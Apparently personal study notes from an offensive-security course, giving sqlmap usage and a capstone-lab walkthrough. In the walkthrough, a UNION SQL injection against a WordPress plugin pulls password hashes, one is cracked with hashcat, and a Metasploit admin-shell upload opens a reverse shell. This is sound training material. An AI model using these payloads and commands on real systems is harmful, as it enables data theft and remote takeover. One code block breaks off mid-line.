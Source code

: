 
#### Automating the Attack
- [sqlmap](https://sqlmap.org/) can identify and exploit SQLi vulns against various database engines.
- Examples:
	- `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user`
		- -u: URL
		- -p: test parameter
	- `sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump`
		- Dump entire database
		- Does this by taking advantage of time-based SQLi vulnerability, so the process of dumping the whole database is quite slow.
	- `--os-shell` gives us an interactive database shell, but if it relies on blind time-based SQLi, it will be slow to use. Using this parameter with UNION-based SQLi affords a better user experience.
	- `sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"`
		- `-r`: post.txt contains a post request (saved using either Burp or mitmproxy)
- **Q4 - Capstone Lab**
	- The hint bot in discord gives the following hints. Sub bullets are my notes.
	- 1) Visit the website and add alvida-eatery.org to your hosts file.
	- 2) Analyze the site with tools like Wappalyzer or WhatWeb to identify the CMS (WordPress).
		- Not strictly necessary to use an analyzer - after adding alvida-eatery.org to your /etc/hosts file and visiting the website, you'll see clues on the webpage that it is wordpress.
	- 3) Use WPScan to enumerate plugins/themes, searching for known vulnerabilities.
		- This is annoying that this is part of the solution because wpscan was not taught as part of the course up to this point.
		- I used this wpscan command: `wpscan --url http://alvida-eatery.org --enumerate ap,at --plugins-detection aggressive --api-token <token>`
		- I recommend piping the output to a file because there's a lot
		- Reading through the output, you'll see there is a "Unauthenticated SLQ Injection" vuln in the Perfect Survey plugin. This one only stood out among the other vulns because this question is in the SQLi Attacks module. On the final offsec exam, I imagine it'd be good to make a list of the vulnerabilities that look most severe and start there.
	- 4) Use the POC in https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad/
		- wpscan provides [this link](https://wpscan.com/vulnerability/c2f8e9b9-c044-4c45-8d17-e628e9cb5d59) in the output as a reference for the aforementioned vulnerability, which provides this information as a POC:
		- Change the link from the POC on that page to `http` and replace the domain:
			- `http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users`
			- Throw that link in a browser or do a curl request to receive json. On first glance, this just looks like random html and not helpful. If you carefully scan it though, you'll find this:
			-
				```<input
				- 5) By searching wordpress keywords in https://hashcat.net/wiki/doku.php?id=example_hashes, we will notice that wordpress hashes start with $P$ characters. You should take it into account when you are receiving the output.
				- Using the command `./hashcat.exe -a 0 -m 400 offsec_10.3.2_Q4.hash rockyou.txt` I found the password to be `hulabaloo`
				- Seems like at this point there are numerous ways to get the flag. I used msfconsole:
				- ```
				> use exploit/unix/webapp/wp_admin_shell_upload
				> set username admin
				> set password hulabaloo
				> set rhosts alvida-eatery.org
				> set lhost <my ip>
				> set lport 4444
				> run
				```
			- Note: if not sure what options to use for an exploit, enter `show options` after selecting the exploit with the `use` command
			- This gave me a metasploit shell. For there I poked around till I found `flag.tx`
		- Alternatively, it seems like another common strategy is to login to the admin portal located at the default wordpress location, then upload a "plugin" that contains a web reverse shell.